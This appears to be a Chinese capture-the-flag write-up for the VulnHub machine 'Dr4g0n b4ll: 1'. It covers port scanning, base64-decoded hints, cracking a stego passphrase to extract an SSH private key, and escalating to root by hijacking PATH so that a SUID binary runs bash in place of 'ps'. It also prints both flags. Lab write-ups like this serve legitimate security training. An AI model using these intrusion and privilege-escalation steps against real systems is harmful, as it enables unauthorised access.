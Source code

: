 # Dr4g0n b4ll: 1

2024-6-14 https://www.vulnhub.com/entry/dr4g0n-b4ll-1,646/

difficulty: Easy

## IP

192.168.10.198

## Scan

Open Port -> 22,80

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey:
|   2048 b5774c88d727541c561d48d9a41e2891 (RSA)
|   256 c6a8c89eed0d671faead6bd5ddf157a1 (ECDSA)
|_  256 faa9b0e3062b9263ba112f94d63190b2 (ED25519)
80/tcp open  http    Apache httpd 2.4.38 ((Debian))
|_http-server-header: Apache/2.4.38 (Debian)
|_http-title: DRAGON BALL | Aj's
```

http://192.168.10.198/robots.txt 显示的信息经过 2 次 base64 解码，显示 you find the hidden dir

http://192.168.10.198/ 首页上没什么信息，查询源码，在最底部发现提示: VWtaS1FsSXdPVTlKUlVwQ1ZFVjNQUT09 , 经过 3 次 base64 解码，显示 DRAGON BALL

看看 DRAGON BALL 是不是 web 上的目录，还带个空格比较奇怪:

```
http://192.168.10.198/DRAGON%20BALL/
```

得到一个 secret.txt 文件:

```
http://192.168.10.198/DRAGON%20BALL/secret.txt

/facebook.com
/youtube.com
/google.com
/vanakkam nanba
/customer
/customers
/taxonomy
/username
/passwd
/yesterday
/yshop
/zboard
/zeus
/aj.html
/zoom.html
/zero.html
/welcome.html
```

可以是密码字典，但是也有可能是 web 的目录名，尝试用 gobuster 按此目录扫描没有，那估计就是密码字典了。

另外有一个 vulnhub 的目录，里面有一个图片和 html 文件：

```
http://192.168.10.198/DRAGON%20BALL/Vulnhub/aj.jpg
```

html 页面没有提交入口，是个静态的：

```
http://192.168.10.198/DRAGON%20BALL/Vulnhub/login.html#
```

先看看这个 aj.jpg 的图片有没有隐写，steghide 没有找到，需要输入密码，使用 stegseek 尝试进行爆破找到密码：

```
stegseek --crack aj.jpg ~/tools/dict/rockyou.txt
StegSeek 0.6 - https://github.com/RickdeJager/StegSeek

[i] Found passphrase: "love"
[i] Original filename: "id_rsa".
[i] Extracting to "aj.jpg.out".
```

发现密码为 love 并且其中压缩了 id_rsa, 有了私钥，需要一个用户名，在 html 的首页上看到 WELCOME TO xmen ，猜测用户名可能是 xmen 尝试 ssh 登陆：

```
ssh -i id_rsa xmen@192.168.10.198
```

登陆成功。

发现 user flag:

```
xmen@debian:~$ cat local.txt
your falg :192fb6275698b5ad9868c7afb62fd555
```

在 scripts 中发现 suid 程序 shell , 并且有源码 demo.c

```
xmen@debian:~/script$ cat demo.c
#include<unistd.h>
void main()
{ setuid(0);
  setgid(0);
  system("ps");
}
```

发现 ps 没有使用绝对路径，可以在当前路径使用 bash 替换 ps，然后在 PATH 中将当前路径加入到 PATH:

```
cd /tmp
cp /usr/bin/bash ./ps
export PATH=/tmp:$PATH
/home/xmen/script/shell

root@debian:/tmp# id
uid=0(root) gid=0(root) groups=0(root),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),109(netdev),1000(xmen)
root@debian:/tmp# cd /root
root@debian:/root# ls
proof.txt
root@debian:/root# cat proof.txt

   _____ __________
  /     \\______   \          ___  ___ _____   ____   ____
 /  \ /  \|       _/          \  \/  //     \_/ __ \ /    \
/    Y    \    |   \           >    <|  Y Y  \  ___/|   |  \
\____|__  /____|_  /__________/__/\_ \__|_|  /\___  >___|  /
        \/       \/_____/_____/     \/     \/     \/     \/

join channel:   https://t.me/joinchat/St01KnXzcGeWMKSC

your flag: 031f7d2d89b9dd2da3396a0d7b7fb3e2
```
